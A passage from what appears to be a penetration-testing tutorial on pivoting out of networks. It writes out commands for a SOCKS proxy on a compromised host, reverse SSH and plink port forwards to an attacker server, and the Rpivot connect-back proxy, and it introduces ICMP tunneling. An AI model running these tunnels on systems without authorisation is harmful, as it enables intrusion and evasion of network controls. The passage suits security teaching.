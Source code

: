 This pivoting setup looks something like this:

Run 3proxy service with the following config on the target server:

`socks -p31337`

Create a separate user on the receiving side (attacker’s machine).

`adduser sshproxy`

This user has to be low-privileged and shouldn’t have shell privileges. After all, you don’t want to get reverse pentested, do ya? :) Edit /etc/passwd and switch shell to /bin/false. It should look like:

    root:x:0:0:root:/root:/bin/bash
    ...
    sshproxy:x:1000:1001:,,,:/home/sshproxy:/bin/false
    ...

Now connect to your server with the newly created user with `-R` flag. Linux system:

`ssh sshproxy@your_server -R 31337:127.0.0.1:31337`

For windows you will need to upload [plink.exe](http://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) first. This is a console version of putty. To run it:

`plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337`

The `-R` flag allows you to bind port on the server side. All connections to this port will be relayed to a specified port on the client. This way we can run 3proxy socks service on the client side (compromised machine) and access this port on the attacker’s host via ssh `-R` flag.

### Rpivot

This is my favorite method of traversing NAT connections. [Rpivot](https://github.com/artkond/rpivot) is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. It connects back to your machine and binds a socks proxy on it. It works just like `ssh -D` but in opposite direction. Server side:

`python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0`

Client side:

`python client.py --server-ip <ip> --server-port 9999`

As a result, a socks4 proxy service will be bound server side on port 1080.

Exfiltrating from the internal network
--------------------------------------

Here’s a different case. Let’s say your social engineering gig ended up placing you in the internal network. You have limited connectivity and ability to execute command on the compromised machine. Of course, if the internet is directly routed and not firewalled you can resort to any technique described above. But if you’re not so lucky there’re still ways to pivot your way out.

### ICMP tunneling

If icmp traffic is allowed to external networks then most likely you can establish an icmp tunnel. The downside is that you will need root/administrator privileges on the target system becase of the necesity to use raw sockets. Check this tool out - <http://code.gerade.org/hans/>. Personally I’ve never tried running it on Windows. It works like a charm on Linux tho. Server side command (attacker’s machine):
